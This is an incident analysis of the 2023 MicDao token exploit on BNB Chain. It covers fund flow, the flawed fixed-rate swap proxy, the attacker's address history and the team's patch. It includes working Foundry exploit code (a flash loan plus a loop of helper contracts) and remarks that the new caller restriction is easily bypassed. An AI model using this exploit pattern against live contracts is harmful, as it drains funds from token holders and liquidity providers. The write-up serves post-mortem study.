# 231018-MicDao

## AttackTx

Analyzing the [attack transaction](https://explorer.phalcon.xyz/tx/bsc/0x24a2fbb27d433d91372525954f0d7d1af7509547b9ada29cc6c078e732c6d075) using Phalcon.

### Fund Flow

The fund flow initially appears to be quite complex.



First, the attacker borrowed approximately 670k USDT from the DoDo pool for the subsequent attack.



Next, the attacker used 500k of that to purchase around 171k MicDao tokens from the PancakePair. (2, 3)



Following this, the attack contract intermediated through contract [0xaebb](https://bscscan.com/address/0xaebb54e6542f207d47c54eb6767184fc378e3164), interacting with contract [0x1934](https://bscscan.com/address/0x19345233ea7486c1d5d780a19f0e303597e480b5), exchanging 2k USDT for 20k MicDao tokens. (4, 5, 6, 11)



During this process, MicDao tokens and a significant amount of USDT (160k) were transferred into the pair. (7, 8)



Simultaneously, LP tokens were minted. (9, 10)

Therefore, the earlier transfer of tokens into the pair was likely for adding liquidity.

The subsequent fund flow is nearly identical to the previous one, with multiple interactions involving the contract 0x1934, and the exchange of 2k USDT for 20k MicDao tokens. Therefore, the earlier 160k USDT added to liquidity likely represents the cumulative amount added through these interactions.



Finally, the attacker exchanged approximately 974k MicDao tokens for about 672k USDT.



In the end, some MicDao tokens were transferred to address 0x000...0001, suggesting a burn operation was executed. After repaying the borrowed funds, the attacker made a profit of approximately 12k USDT, which was sent to another address. (332)

Clearly, the entire process reveals irregularities. Through intermediary contracts, the user could consistently exchange MicDao tokens at a fixed 1:10 price and receive additional MicDao tokens as a subsidy to add liquidity to the pair. The reason why attackers profit appears to be that after buying a large amount of MicDao tokens (after which the price of MicDao tokens will become very high), they can still continuously use intermediary contracts to obtain MicDao tokens at a fixed low price, while adding liquidity to the pool, so that even if some tokens were burnt, they can still sell the obtained more tokens at a better price and ultimately make a profit.

### Balance Changes



The balance changes align closely with the Fund Flow analysis. It's evident that the USDT losses primarily came from the pair.

### State Changes



Notably, it appears that MicDao did not undergo similar burn operations in the past.

### Invocation Flow

Below, we provide a detailed analysis of the internal transaction calls.



Consistent with our earlier analysis, the attacker initiated a flash loan of USDT and, within the callback function, approved the corresponding token. Subsequently, they used 500,000 USDT to purchase MicDao tokens.



Following this, a `create->transfer->work` loop ensues.

Within this loop, the attacker first deploys a smart contract and transfers 2,000 USDT to its address. They then call the contract's `work` function. Within this function, the intermediary contract `swapProxy` is invoked with its `swap` function. The logic of this function aligns with the earlier analysis of the Fund Flow, executing the exchange at a fixed rate of 1:10 for MicDao tokens. In other words, the attacker acquires 20,000 MicDao tokens with 2,000 USDT. Subsequently, the intermediary contract adds liquidity to the pool. (Due to the significant MicDao price increase caused by the attacker's large-scale exchange, adding 2,000 USDT corresponds to adding approximately 23 MicDao tokens.)

From this process, it becomes evident that the exchange of USDT for MicDao tokens through the `swap` function of the intermediary contract `swapProxy` does not involve swapping via a pair. Instead, the intermediary contract itself possesses a substantial number of MicDao tokens and directly offers them to the buyer at a fixed rate of 1:10. Simultaneously, it provides some MicDao tokens and uses the user's inputted USDT to add liquidity.



Finally, since the attacker obtained a significant amount of MicDao tokens at a "low price", and the pool became thicker, even though a substantial amount of tokens were inexplicably burned, the attacker still managed to sell them to acquire more USDT than the invested amount. The profits were then transferred to another address.

This analysis closely aligns with the Fund Flow analysis.

## Vulnerability

The evident logic flaw lies within the `swap` function of the [intermediary contract]((https://bscscan.com/address/0x19345233ea7486c1d5d780a19f0e303597e480b5#code)) responsible for exchanging MicDao tokens.

However, this contract is not open source. Nonetheless, a rudimentary analysis by decompilation suggests that its execution logic is similar to the preceding calls.



It's worth noting that this function imposes a limit on the amount of USDT an account can swap.

```bash
cast storage 0x19345233ea7486c1d5d780a19f0e303597e480b5 9 --rpc-url https://rpc.ankr.com/bsc
```

Upon inspection, this limit is set to 2000 ether. This explains why the attacker repeatedly created new contracts to invoke the `swap` function.



Additionally, the MicDao tokens transferred to the `sender` here are calculated as `amountUSDT * 1e18 / _price / 2`.

```bash
cast storage 0x19345233ea7486c1d5d780a19f0e303597e480b5 7 --rpc-url https://rpc.ankr.com/bsc
```

With a price of 0.05e18, this results in the sender receiving MicDao tokens in proportion to a 1:10 ratio.

Examining some of the normal `swap` transactions before the attack, such as [this transaction](https://bscscan.com/tx/0x19bb42f2c923f4c264547adde119e550ec842c751ce930f57a37578dd8b4be05), the fund flow is as follows.



It reveals a similar fund flow to the attacker's `swap` logic. The key difference is that not all the incoming USDT was used to add liquidity; 10% was transferred to another address.

Checking the transaction history of the [sender](https://bscscan.com/address/0x862bd1ddee057f6c4d5e76414b7c0a31ce6dbaf1) of this transaction reveals a call to the `bindRelationship(address referrer)` function of [another contract](https://bscscan.com/address/0xc13a7517dd880d40e377133fe8ca319ea9e2b6ca) before the `swap`. The address set as the referrer in this function call matches the address to which the funds were transferred during the `swap`. In contrast, the attacker omitted this `bindRelationship` step and instead set the calling contract as the referrer in the `swap` parameters.

(Based on the presence of `referrer`, `bindRelationship`, and other clues, it seems like this might be a referral-based protocol designed to profit from recommending others, somewhat resembling a Ponzi scheme.)

In conclusion, it appears that this MicDao token was designed with a special `swap` entry point that allows for a fixed 1:10 exchange of USDT for MicDao tokens. The entire attack process follows this logic, involving the creation of numerous contracts to call `swap` in exchange for MicDao (in this sense, it resembles a Sybil Attack). It also leverages a thicker liquidity pool to make a profit. 

Furthermore, this MicDao token has the following `transfer` function:

```solidity
function _transfer(address sender, address recipient, uint256 amount) internal override {
    if (pairList[recipient] && !isDelivers[sender]) {
        uint256 toBurn = amount.mul(45).div(100);
        super._transfer(sender, address(1), toBurn);
        amount = amount.sub(toBurn);
    }
    super._transfer(sender, recipient, amount);
}
```

Based on related transactions, `pairList` is set as the PancakePair, while `isDelivers` is set to the aforementioned intermediary contract `swapProxy`. Consequently, if a user tries to transfer tokens directly to the pair for swapping or liquidity provision, 45% of the tokens will be burned.

Moreover, as mentioned earlier, there were no burn operations conducted on MicDao tokens before the attack, indicating that no one attempted token swaps through the pair.

## Exploit

### Reproduction

Based on the analysis above, combined with the AttackTx, we can reproduce the exploit as follows.

```solidity
function testExploit() public {
    uint attackBlockNumber = 32711747;
    vm.rollFork(attackBlockNumber);

    deal(address(usdt), address(this), 0);

    dodo.flashLoan(0, (usdt.balanceOf(address(dodo)) * 99) / 100, address(this), "0x00");

    emit log_named_decimal_uint("Total USDT profit", usdt.balanceOf(address(this)), usdt.decimals());
}

function DPPFlashLoanCall(address /*sender*/, uint256 /*baseAmount*/, uint256 quoteAmount, bytes calldata /*data*/) external {
    usdt.approve(address(router), type(uint256).max);
    MicDao.approve(address(router), type(uint256).max);
    usdtToMicDao();

    uint8 i;
    while (i < 80) {
        HelperContract helper = new HelperContract();
        usdt.transfer(address(helper), 2_000 ether);
        helper.work();
        ++i;
    }

    MicDaoTousdt();
    usdt.transfer(msg.sender, quoteAmount);
}

function usdtToMicDao() internal {
    address[] memory path = new address[](2);
    path[0] = address(usdt);
    path[1] = address(MicDao);

    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        500_000 ether,
        0,
        path,
        address(this),
        block.timestamp
    );
}

function MicDaoTousdt() internal {
    address[] memory path = new address[](2);
    path[0] = address(MicDao);
    path[1] = address(usdt);

    router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        MicDao.balanceOf(address(this)),
        0,
        path,
        address(this),
        block.timestamp
    );
}
```

The loop for creating contracts used for `swap` is as follows.

```solidity
contract HelperContract {
    IMicDaoSwap private constant SwapContract = IMicDaoSwap(0x19345233ea7486c1D5d780A19F0e303597E480b5);
    IERC20 private constant usdt = IERC20(0x55d398326f99059fF775485246999027B3197955);
    IERC20 private constant MicDao = IERC20(0xf6876f6AB2637774804b85aECC17b434a2B57168);
    address private immutable owner;

    constructor() {
        owner = msg.sender;
    }

    function work() external {
        usdt.approve(address(SwapContract), type(uint256).max);
        SwapContract.swap(2_000 ether, owner);
        MicDao.transfer(owner, MicDao.balanceOf(address(this)));
        selfdestruct(payable(owner));
    }
}
```

### Attack Flow | A Crazy Hacker

Analyzing the entire attack process of the attacker address [0xcd03](https://bscscan.com/address/0xcd03ed98868a6cd78096f116a4b56a5f2c67757d) on MicDao. (It can be observed that as of the time of writing this article, this address has initiated a significant number of transactions.)



Initially, the attacker obtained funds from FixedFloat on August 24th for transaction fees in subsequent activities.



On August 25th and 26th, the attacker created two contracts, but as of now, there are no recorded invocations.



On September 3rd, the attacker created another contract and called its `tokenTest` function, exchanging 0.1 BNB for another token, which appeared to be without a meaningful purpose.



Subsequently, on the same day, two transactions about address [0x547f](https://bscscan.com/address/0x547fb3db0f13eed5d3ff930a0b61ae35b173b4b5) were made.



On September 7th, there was another transaction involving address [0x181e](https://bscscan.com/address/0x181ed57a3da2d68971bef20409a1f1237f2727cc).



Half an hour later, a contract was created, and the `0x8a27ecfb` function was called.

Using [Phalcon analysis](https://explorer.phalcon.xyz/tx/bsc/0x58772b024cf31e0ffbfca439ca01c07eb13cd0d3404f44f7c3d59074b9c07eb9), it is evident that this was another attack, targeting the HCT token, resulting in a profit of approximately 35 BNB. Similar to the MicDao attack, the gains were transferred to the address [0xa5b9](https://bscscan.com/address/0xa5b92a7abebf701b5570db57c5d396622b6ed348).





The next transaction occurred on October 16th, seemingly creating a contract, but, in reality, the contract merely transferred funds to another address [0x3a86](https://bscscan.com/address/0x3a860f9bcf3f800bac67d771723e3f02dd402d9a) through selfdestruct. (This added layer through the contract obscures the transfer and can help to some extent in preventing fund tracing.)



Then, on October 18th, the attacker called the `destroy` function of a contract created by address [0x3a86](https://bscscan.com/address/0x3a860f9bcf3f800bac67d771723e3f02dd402d9a). Immediately after, three contracts were created, and the third contract's `0x8a27ecfb` function was called, initiating an attack on MicDao. (The other two contracts created had no subsequent interactions.)



On October 20th, 0.43 BNB was used to exchange for USDT and was transferred to address [0x3a86](https://bscscan.com/address/0x3a860f9bcf3f800bac67d771723e3f02dd402d9a).



Two days later, on October 22nd, the attacker transferred BNB to address [0xa5b9](https://bscscan.com/address/0xa5b92a7abebf701b5570db57c5d396622b6ed348), followed by calls to the `approve` and `Multicall` functions, using PancakeRouter to exchange 2 BNB for USDT.

Subsequently, the attacker approved the contract [0x833b](https://bscscan.com/address/0x833bAc7161DF736f044dc131a1189Df23d758062) for USDT tokens, and the contract [0x11f3](https://bscscan.com/address/0x11f3f6F9DdFA6E25F419C17A11a2808eF5311220) (MintPool) for BOS tokens, with the contract [0x833b](https://bscscan.com/address/0x833bAc7161DF736f044dc131a1189Df23d758062) being created by address [0x3a86](https://bscscan.com/address/0x3a860f9bcf3f800bac67d771723e3f02dd402d9a).

Subsequently, multiple calls were made to the `tokenTest` function of the contract [0x833b](https://bscscan.com/address/0x833bAc7161DF736f044dc131a1189Df23d758062) and the `sell` function of the MintPool contract.

Using Phalcon analysis, it is apparent that this was likely another attack, targeting BOS tokens. In the `tokenTest` transactions, the attacker used a small amount of USDT to acquire a large amount of BOS tokens and later exchanged them for a substantial amount of USDT tokens in the `sell` transactions. (The reason why the attacker chose to initiate multiple transactions rather than writing a single attack contract is not clear at this time, as the attack principle has not yet been analyzed.)



After this attack concluded, on the same day (October 22nd), approximately 12k USDT was transferred to address [0xf610](https://bscscan.com/address/0xF610e3A4eF3b19b9cF8Dc88E4Cc26B2f96EC1410). On the following day, October 23rd, approximately 56k USDT and 1.8 BNB were transferred to address [0xa5b9](https://bscscan.com/address/0xa5b92a7abebf701b5570db57c5d396622b6ed348).

As of the time of writing this article, there have been no further transactions from this address, and most of the profit funds have already been transferred out.

--- 

By tracing the addresses interacting with the MicDai attacker's address reveals that this seems to be a crazy hacker who frequently launches an attack, with at least the following attacks present.

- [0xcd03](https://bscscan.com/address/0xcd03ed98868a6cd78096f116a4b56a5f2c67757d)
  - HTC 09/28/2023
  - MicDao 10/18/2023
  - BOS 10/22/2023
- [0x547f](https://bscscan.com/address/0x547fb3db0f13eed5d3ff930a0b61ae35b173b4b5)
  - SUT 07/21/2023
  - BTCMT 07/23/2023
- [0x181e](https://bscscan.com/address/0x181ed57a3da2d68971bef20409a1f1237f2727cc)
  - CLASSIC 09/28/2023
- [0xe9f2](https://bscscan.com/address/0xe9f2e8a1e956051ffa6709109854739a9be22d12)
  - NFTT 12/08/2023

Furthermore, the interaction chain between addresses is complex. Funds are frequently transferred between multiple addresses, and situations where one address creates contracts that another address calls are also observed.

## Misc

Now, let's delve into some miscellaneous aspects of the MicDao attack.

### Frontrunning Protection

From the previous analysis, it is evident that the attacker has launched multiple attacks, displaying a high level of expertise, and seemingly avoiding frontrunning.

In the case of the MicDao attack, the attacker deployed three contracts in total.





Upon decompilation, it becomes clear that these contracts were designed specifically for the MicDao attack. However, the first two contracts appear to have issues. For instance, the second contract is nearly identical to the third one used for the actual attack, except that the initial USDT amount for exchanging MicDao is set at 400k, and the number of contract creations for 'swap' is increased to 150.

```solidity
function testFirstAttackContract() external {
    uint attackBlockNumber = 32711519;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(0xCD03ed98868A6cd78096F116A4b56a5f2C67757d, 0xCD03ed98868A6cd78096F116A4b56a5f2C67757d);
    (bool success, ) = address(0x19925F6f3Fd654Fe98c0a16D751E24Dd176AE8f9).call(hex"8a27ecfb");
    require(success);
}

function testSecondAttackContract() external {
    uint attackBlockNumber = 32711643;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(0xCD03ed98868A6cd78096F116A4b56a5f2C67757d, 0xCD03ed98868A6cd78096F116A4b56a5f2C67757d);
    vm.txGasPrice(3000300501);
    uint256 beforeAttack = usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348));
    (bool success, ) = address(0x0697B5dc2365e2735Bc1F086E097bcf0c61f518d).call(hex"8a27ecfb");
    require(success);
    emit log_named_decimal_uint("Total USDT profit", usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348)) - beforeAttack, usdt.decimals());
}

function testThirdAttackContract() external {
    uint attackBlockNumber = 32711700;
    vm.rollFork(attackBlockNumber);
    vm.startPrank(0xCD03ed98868A6cd78096F116A4b56a5f2C67757d, 0xCD03ed98868A6cd78096F116A4b56a5f2C67757d);
    vm.txGasPrice(3000300501);
    uint256 beforeAttack = usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348));
    (bool success, ) = address(0x502b4A51ca7900F391d474268C907B110a277d6F).call(hex"8a27ecfb");
    require(success);
    emit log_named_decimal_uint("Total USDT profit", usdt.balanceOf(address(0xA5b92A7abebF701B5570db57C5d396622B6Ed348)) - beforeAttack, usdt.decimals());
}
```

Simulating this would result in an error. It's evident that 150 'swap' operations would require 300k, in addition to the 400k USDT needed for the exchange, totaling 700k USDT, whereas the DoDo pool holds less than 700k USDT. It's puzzling why such illogical contract logic was deployed to the chain.

Upon analyzing the pseudocode, it's clear that the attacker implemented anti-frontrunning logic. For example, the final profits are not directly sent to the sender but to another address. Additionally, the `require` statements restrict `tx.origin` and `gasPrice` for transactions. However, it's worth mentioning that this seems like a relatively standard approach, raising questions about why it wasn't been frontrun.

(On a side note, due to the use of gasPrice restrictions, the logic in the decompiled code generated by dedaub may have certain issues, which can be analyzed in conjunction with ethervm decompilation.)

### Patch



Approximately an hour after the attack, the MicDao team took action to salvage the remaining funds in the pair. They first called `rescueTokens` to withdraw all LP tokens and then used `removeLiquidity` to remove liquidity from the pair, obtaining approximately 5.5k USDT.



The next day, on October 19th, they called the `changeRouterAddress` function to disable the `swap` functions.

### Scam?

It's worth noting that the project team's address [0x6a83](https://bscscan.com/address/0x6a83ab2666e76e39e4b30e65c9159621f27b8ba9) made a transfer to address [0x1572](https://bscscan.com/address/0x1572f6db906eef7bcb0992ccdfdcf2bc80eb5154) eventually.

Checking this address reveals that the project team created [new MicDao tokens](https://bscscan.com/address/0x02D5558060144c1EEf3e9F290e46eb0A77ab7Cb8), a [new pair](https://bscscan.com/address/0xB3ca970B7091234A7C36EEc53695F934EAbB565e), and a [new intermediary contract]((https://bscscan.com/address/0x696cB70286002718fe880eD80EB9461E0FD76447)) for the `swap` operation.

Upon a brief analysis, it becomes evident that the new contract includes restrictions on `codesize` for callers.



(However, it is apparent that the restrictions can be easily bypassed.)

Furthermore, unlike before, the `_transfer` function for the new token is as follows:

```solidity
function _transfer(address sender, address recipient, uint256 amount) internal override {
    if(pairList[recipient] && !isDelivers[sender] && sender!=address(this)){
        uint256 toSwap = amount.mul(70).div(100);
        super._transfer(sender, address(this), toSwap);
        swapTokensForToken(toSwap);
        amount = amount.sub(toSwap);
    }
    super._transfer(sender, recipient, amount);
}
```

